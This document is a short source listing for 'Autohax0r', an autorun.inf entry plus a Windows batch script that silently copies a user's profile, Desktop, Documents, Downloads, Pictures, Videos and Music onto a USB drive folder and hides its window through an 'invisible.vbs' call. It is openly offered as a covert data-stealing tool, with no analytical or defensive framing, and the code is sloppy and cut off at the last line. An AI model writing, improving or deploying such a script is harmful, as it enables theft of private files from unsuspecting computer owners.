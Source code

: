 [autorun].
label=Autohax0r
icon=1.ico
open=lanuch.bat
action=Begin Autohax0r

::variables
/min
SET odrive=%drive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y 
echo off
%backupcmd%"%USERPROFILE%" "%drive%/Lucky\Favorites" 
%backupcmd%"%USERPROFILE%\Favorites" "%drive%\Lucky\Favorties"
%backupcmd%"%USERPROFILE%\videos" "%drive%\Lucky\vids"
%backupcmd%"%USERPROFILE%\Desktop" "%drive%\Lucky\Desktop"
%backupcmd%"%USERPROFILE%\Recycle Bin" "%drive%\Lucky\Desktop"
%backupcmd%"%USERPROFILE%\Downloads" "%drive%\Lucky\Lib"
%backupcmd% "%USERPROFILE%\Documents""%drive%\Lucky\dou"
%backupcmd% "%USERPROFILE%\Pictures""%drive%\Lucky\dou"
%backupcmd% "%USERPROFILE%\Videos""%drive%\Lucky\dou"
%backupcmd% "%USERPROFILE%\Music""%drive%\Lucky\dou"
cls
WScript.exe\invisible.vbs fil
